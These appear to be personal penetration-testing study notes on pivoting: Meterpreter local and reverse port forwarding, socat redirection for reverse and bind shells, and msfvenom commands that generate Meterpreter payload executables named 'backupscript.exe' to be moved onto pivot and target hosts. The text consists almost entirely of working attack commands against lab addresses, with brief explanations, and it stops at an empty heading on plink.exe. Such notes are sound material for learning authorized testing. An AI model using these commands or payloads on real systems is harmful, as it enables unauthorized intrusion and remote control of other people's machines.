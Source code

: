 ## Port Forwarding
#### Creating Local TCP Relay

```shell
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

 attack host's local port (`-l`) `3300`
 remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session

>Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

## Meterpreter Reverse Port Forwarding

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
 This command forwards all connections on port `1234` running on the Ubuntu server to our attack host on local port (`-l`) `8081`

# Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.

```shell
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
#### Creating the Windows Payload
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

# Socat Redirection with a Bind Shell

![[Pasted image 20250210142611.png]]

#### Creating the Windows Payload

on attack host
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

transfer to pivot host
transfer to target host

```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
# SSH for Windows: plink.exe
